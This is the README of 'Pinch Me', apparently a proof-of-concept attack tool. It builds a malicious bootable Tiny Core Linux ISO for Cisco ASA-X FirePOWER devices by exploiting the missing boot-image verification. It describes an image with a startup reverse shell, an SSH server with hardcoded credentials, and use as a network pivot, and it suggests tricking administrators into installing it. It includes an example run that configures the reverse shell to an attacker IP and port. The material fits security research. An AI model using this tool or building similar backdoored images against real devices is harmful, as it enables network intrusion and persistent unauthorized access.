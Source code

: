 # Pinch Me

Pinch Me generates a bootable [Tiny Core Linux](http://tinycorelinux.net/) ISO. The ISO can be loaded and executed as a virtual machine on [Cisco ASA-X with FirePOWER Services](https://www.cisco.com/c/en/us/products/security/asa-firepower-services/index.html). Too install [FirePOWER Services Software for ASA](https://software.cisco.com/download/home/286283326/type/286277393/release/6.2.3) the administrator must first load a boot image (e.g. `asasfr-5500x-boot-6.2.3-4.img`). ASA software has no mechanism to determine if the provided boot image was provided by Cisco, and because the boot image is simply a bootable ISO, any arbitrary boot image will get loaded/executed.

`pinchme.sh` will generate an image that includes ASCII DOOM, a reverse shell on start up, and an SSH server. The default credentials are `tc:ch33sed00dle`. The VM will gain execution on the administrative interface that the FirePOWER Services would typically occupy. Depending on wiring (e.g. if the admin interface is wired as recommended by Cisco), the VM will be assigned two NIC. One NIC will be assigned a DHCP address allowing the attacker to both access the internet and the LAN (of course, depending on firewall rules). It serves as an excellent pivot.

However, the boot image is not permenant. If the ASA is restarted then the boot image is cleared away. Obviously, this could be seen as good or bad depending on the attack scenario.

This is most likely useful when tricking a user to install the malicious boot image. It's also useful if an attacker achieves administrative access to the ASA that isn't running an SFR module (or the attacker is willing to wipe out the current SFR installation). 

## Example

### Generating the Image (reverse shell to 10.0.0.28:1270)

```sh
albinolobster@ubuntu:~/pinchme$ sudo ./pinchme.sh -i 10.0.0.28 -p 1270
LHOST: 10.0.0.28
LPORT: 1270
/home/albinolobster/pinchme/iso.fkfpCd
--2022-06-13 07:56:18--  https://distro.ibiblio.org/tinycorelinux/6.x/x86/release/Core-6.4.1.iso
Resolving distro.ibiblio.org (distro.ibiblio.org)... 152.19.134.43
Connecting to distro.ibiblio.org (distro.ibiblio.org)|152.19.134.43|:443... connected.

... snip the download of many Tiny Core files ...

/home/albinolobster/pinchme/iso.fkfpCd/cde/optional /home/albinolobster/pinchme
/home/albinolobster/pinchme
xorriso 1.5.2 : RockRidge filesystem manipulator, libburnia project.

Drive current: -outdev 'stdio:tinycore-custom.iso'
Media current: stdio file, overwriteable
Media status : is blank
Media summary: 0 sessions, 0 data blocks, 0 data, 61.9g free
xorriso : WARNING : -volid text does not comply to ISO 9660 / ECMA 119 rules
Added to ISO image: directory '/'='/home/albinolobster/pinchme/iso.fkfpCd'
xorriso : UPDATE :      51 files added in 1 seconds
xorriso : UPDATE :      51 files added in 1 seconds
ISO image produced: 32815 sectors
Written to medium : 32815 sectors at LBA 0
Writing to 'stdio:tinycore-custom.iso' completed successfully.

19345 blocks
Cloning into 'doom-ascii'...
remote: Enumerating objects: 338, done.
remote: Counting objects: 100% (338/338), done.
remote: Compressing objects: 100% (210/210), done.
remote: Total 338 (delta 151), reused 313 (delta 126), pack-reused 0
Receiving objects: 100% (338/338), 3.31 MiB | 6.30 MiB/s, done.
Resolving deltas: 100% (151/151), done.
```